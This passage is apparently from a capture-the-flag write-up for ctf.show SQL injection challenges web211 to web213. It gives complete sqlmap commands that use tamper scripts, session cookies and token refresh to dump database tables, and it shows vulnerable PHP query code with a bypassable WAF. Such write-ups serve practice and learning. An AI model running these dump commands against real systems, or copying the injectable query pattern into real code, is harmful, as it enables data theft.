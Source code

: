 payload

```
python sqlmap.py -u "http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=ibn3o3imhq85l1043f80nbdova;" --referer=ctf.show -D ctfshow_web --safe-url="http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavia --dump
```



#### web212

```python
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

waf增加了*

但是不影响上一题的tamper

```
python sqlmap.py -u "http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=72duisds4cprdqlbtf4fu4389d;" --referer=ctf.show -D ctfshow_web --safe-url="http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavis --dump
```



#### web213

```php
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```
